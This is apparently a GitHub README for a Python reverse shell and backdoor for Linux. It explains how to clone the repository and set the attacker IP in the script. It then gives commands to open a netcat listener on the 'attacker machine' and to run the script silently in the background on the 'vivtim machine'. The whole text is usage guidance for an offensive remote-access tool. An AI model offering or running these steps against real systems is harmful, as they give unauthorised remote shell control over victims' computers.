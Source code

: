 # ReverseShell | Written In ![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
---
- A python backdoor/reverseshell for linux.

![backd](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/backd_profile.jpeg)

## How to use?

Clone the repo:
```
git clone https://github.com/Keyj33k/ReverseShell.git
```

After successful cloning:
```
cd ReverseShell
```
## You will found a file called >> reverseshell.py:

- Now you need to change the ip in the script.

## After saving your settings you can test it:

- On the attacker machine:
```
nc -lnvp 5003
```
- On the vivtim machine:
```
python3 reverseshell.py &
```

